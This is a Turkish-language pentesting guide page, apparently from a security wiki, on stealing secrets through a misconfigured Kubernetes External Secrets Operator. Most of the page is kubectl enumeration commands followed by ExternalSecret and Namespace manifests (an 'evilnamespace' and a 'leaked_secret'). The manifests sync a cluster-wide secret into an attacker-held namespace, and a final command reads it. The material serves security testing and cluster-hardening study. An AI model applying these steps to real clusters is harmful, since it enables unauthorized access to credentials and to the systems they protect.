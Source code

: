 # External Secret Operator

**Bu sayfanın orijinal yazarı** [**Fares**](https://www.linkedin.com/in/fares-siala/)

Bu sayfa, yanlış yapılandırılmış bir ESO veya ESO'yu gizli bilgilerini senkronize etmek için kullanan bir uygulamadan gizli bilgileri nasıl çalabileceğinize dair bazı ipuçları vermektedir.

## Disclaimer

Aşağıda gösterilen teknik yalnızca belirli koşullar sağlandığında çalışabilir. Örneğin, bir gizli bilginin sahip olduğunuz / ele geçirdiğiniz bir ad alanında senkronize edilmesine izin veren gereksinimlere bağlıdır. Bunu kendiniz çözmeniz gerekiyor.

## Prerequisites

1. Bir ad alanında yönetici ayrıcalıkları olan bir kubernetes / openshift kümesinde bir ayak izi
2. En azından küme düzeyinde ExternalSecret üzerinde okuma erişimi
3. ESO'nun gizli bilginizi senkronize etmesine izin veren gerekli etiketler / açıklamalar veya grup üyeliği olup olmadığını belirleyin. Şanslıysanız, tanımlı herhangi bir gizli bilgiyi özgürce çalabilirsiniz.

### Gathering information about existing ClusterSecretStore

Yeterli haklara sahip bir kullanıcınız olduğunu varsayarak; önce mevcut _**ClusterSecretStores**_ listesini çıkararak başlayın.
```sh
kubectl get ClusterSecretStore
```
### ExternalSecret enumeration

Bir ClusterSecretStore _**mystore**_ adını bulduğunuzu varsayalım. İlgili externalsecret'leri listelemeye devam edin.
```sh
kubectl get externalsecret -A | grep mystore
```
_Bu kaynak ad alanı kapsamlıdır, bu nedenle hangi ad alanında arama yapacağınızı bilmiyorsanız, tüm ad alanlarında arama yapmak için -A seçeneğini ekleyin._

Tanımlı externalsecret'lerin bir listesini almalısınız. _**mysecret**_ adında bir externalsecret nesnesi bulduğunuzu varsayalım ve bu nesne _**mynamespace**_ ad alanında tanımlanmış ve kullanılıyor. Hangi türde bir gizli bilgi tuttuğu hakkında biraz daha bilgi toplayın.
```sh
kubectl get externalsecret myexternalsecret -n mynamespace -o yaml
```
### Parçaları Birleştirme

Buradan bir veya birden fazla gizli adın (Secret kaynağında tanımlandığı gibi) adını alabilirsiniz. Çıktınız şu şekilde olacaktır:
```yaml
kind: ExternalSecret
metadata:
annotations:
...
labels:
...
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
...
```
Şu ana kadar şunları aldık:

- Bir ClusterSecretStore adı
- Bir ExternalSecret adı
- Sırrın adı

Artık ihtiyacımız olan her şeye sahip olduğumuza göre, bir ExternalSecret oluşturabilirsiniz (ve nihayetinde yeni sırrınızın senkronize edilmesi için gereken ön koşullara uymak üzere yeni bir Namespace oluşturabilir veya güncelleyebilirsiniz):
```yaml
kind: ExternalSecret
metadata:
name: myexternalsecret
namespace: evilnamespace
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
refreshInterval: 30s
secretStoreRef:
kind: ClusterSecretStore
name: mystore
target:
creationPolicy: Owner
deletionPolicy: Retain
name: leaked_secret
```

```yaml
kind: Namespace
metadata:
annotations:
required_annotation: value
other_required_annotation: other_value
labels:
required_label: somevalue
other_required_label: someothervalue
name: evilnamespace
```
Birkaç dakika sonra, senkronizasyon koşulları sağlandıysa, ad alanınız içinde sızdırılan sırrı görebilmelisiniz.
```sh
kubectl get secret leaked_secret -o yaml
```
## Referanslar

{{#ref}}
https://external-secrets.io/latest/
{{#endref}}

{{#ref}}
https://github.com/external-secrets/external-secrets
{{#endref}}
